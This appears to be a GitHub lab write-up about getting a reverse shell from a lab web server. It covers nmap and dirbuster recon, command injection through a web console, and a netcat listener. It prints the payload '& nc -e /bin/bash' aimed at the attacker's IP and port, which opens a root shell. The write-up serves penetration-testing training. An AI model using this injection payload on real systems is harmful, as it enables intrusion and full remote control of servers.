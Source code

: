 # Catching-a-Reverse-Shell

# Stage 1: Topology

We are acting as Kali4 and our target is App1. Our networks are segmented but, our routers share a common switch.
Our goal is to get our target to send us a shell, this is called a reverse shell.

![CRS_1](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b7129606-92ef-4b2e-a1cf-98b409265d07)

The only information we are given is the ip of the router. Lets see what we can find out about the network.

![CRS_2](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/bd1950ed-b6d2-4c5d-a4ce-5a54790ac923)

# Stage 2: Reconnaissance

The first step in attacking a target is recon. RECON RECON RECON. We can't attack something we do not know. We will be using
the popular recon tool nmap on our targeted IP.

This is optional but, you can create a file with a list of IP's and tell nmap to scan the list using the " -iL " switch.

![CRS_3](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/bebaaa89-1217-404d-8315-6a8749ba3115)

The " tee " command allows you to run whatever command you want and print the output to a file. Whatever you put after tee
will become the file name.

![CRS_4](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/6349788c-7ce4-4b39-927f-d0c02aa41612)

As you see ports 53/DNS and 80/HTTP are open. It is safe to assume that App1 is a webserver since DNS and HTTP are open.
We will most likely attack port 80/HTTP but, lets find some more information. When you see a target is hosting HTTP think
BROWSER BROWSER BROWSER. Type the targets IP into your browser. 

Ex: http://192.168.122.47

![CRS_5](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/3cda74d4-71b5-4c58-9f36-d9162f1e3ea1)

The site appears to be bare, empty, useless. But we are HACKERS! we theres always a way into the "mainframe"
Lets see if theres anymore information on the back end. Use right click and hit "view page source" or press 
"ctrl+u" if you're cool.

![CRS_6](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/fec3d9a1-c2c2-4744-b229-103508477788)

This is how the page is made up. We see the page is written using html and designed with css. You can click around and 
be Indianna but I clicked this fancy .png link.

![CRS_7](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/1a6f8f82-cd37-41b2-9629-7dd4cbeb3d97)

We found something!!! This is a $1 vulnerability, D Tier, common, but it's something. The vulnerability is "Version Disclosure
Vulnerability". We now know that App1 is a Linux server running on Apache version 2.4.52. This is a low vulnerability but, this
is a step in finding exploits against the server. I mean you can try it your self. Copy and paste this in google:

Apache Version 2.4 exploits

Moving on...

![CRS_8](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/419cbc3c-4754-4f46-b472-af392a0f52f3)

We are still trying to gather more information on the site. The last thing we will do is search to see if there are any hidden
paths in the site. After all, websites are directories, files, media, and code. We will run dirbuster to find any hidden paths.

![CRS_9](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/c6d3d9d4-6537-473c-b101-a0e6bbee679a)

There are a few hits, but one paths stands out from the others. The "console" path. We will add it to the targets url. 

http://192.168.122.47/console/

![CRS_10](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/e0c10cd3-df64-4ec0-a42f-b6c059852590)

Select view.php

![CRS_11](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/6a2bce9a-d7ec-49f5-96fa-2fd67dafa56f)

It appears we are at an application in which we can search files if we give the website proper credentials. We know that the 
machine we are dealing with is a Linux Debian. Let's see if we can insert linux commands into the webapp. 

# Resource Development / Initial Access

Linux, Microsoft, HTML, RUBY, etc runs on code. When injecting code use functions that will close a code so you can start your own.
For example, if you look at HTML code you can see a pattern of <> "" etc. These are used to close comment make references etc. These 
should be something to foucs on if you are injecting a html service. We are assuming the application allows us to talk to the linux 
server directly. So we will use functions such as " ; & | " etc.

- & is a function to run next
- ; is a function to run on a seperate line

Lets try and inject some commands in the boxes.

![CRS_12](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/3c0e7622-676a-4d5b-b7c3-906fbeb3e8d3)

nothing...

![CRS_13](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/f6f038ff-6b7f-4d9c-a69f-14c7a647c620)

Big Success! our " & id " command shot out the users id and its permissions.

UID=0 is root be aware for that.

This is another vulnerability called "command injection". The designer of the website has failed to sanitize or block the
use of special characters.

Since we have the ability to type commands into the target computer that gives us the ability to send a reverse shell.
We must first port forward the shell by changing our firewall settings.

![CRS_14](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/419b45e2-93f0-475d-9f9d-f9d1550544b7)

We enter our routers IP into the browser

![CRS_15](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/e29402b2-5791-420a-a580-ba41b6da867c)

Log In and head into the NAT rules.

![CRS_16](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/fba44514-3059-4d1e-ab6b-e098699f7c82)

Make sure you set the destination type to "WAN". You can change the port range to anything you want just make sure
that it matches with the redirect port. Use your own IP for the redirection and save.

This is our reverse shell firewall rule.
We are telling OUR firewall to open port 2077 and any traffic you get that is 2077 redirect to "my" IP or computer.

When we are sending the payload for a reverse shell we are telling the target to send "US" a request to connect.

![CRS_17](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/4fe3c2b1-67f7-4676-bb10-c2a083bb1e50)

Now we grab our gloves and get ready for the reverse shell catch by running

- nc -lvp 2077   
- l = listener
- v = verbose
- p = port

![CRS_18](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/a0cab823-6827-4265-9b48-344e12cfda30)

Our box is actively listening for the shell. We now send the payload through the website to connect to us. Run:

& nc -e /bin/bash 192.168.122.209 2077

make sure you are sending the shell to "your" router, the router will send the shell to your box and if the listener
is running you will catch the shell.

![CRS_19](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/0e8ebe54-28f7-4d2a-9332-c68c1b4b45bc)
![CRS_20](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/890835be-3629-4e67-a924-fb41650a8a46)
![CRS_21](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b333e956-85c6-4917-8920-0c100adb05fc)
![CRS_22](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b6c6921b-cd56-4342-8353-cb58c1539dbf)
![CRS_23](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/25ac8c87-45ef-41f0-9682-3a7974743d9a)
![CRS_24](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/322d08f2-fd72-4155-9b10-3f3311eef59b)
![CRS_25](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/a9c2cffb-6afd-4dbe-a14a-c753433ca4ef)
![CRS_26](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/78fc9ded-7706-484d-98d8-44c02b2cfc01)
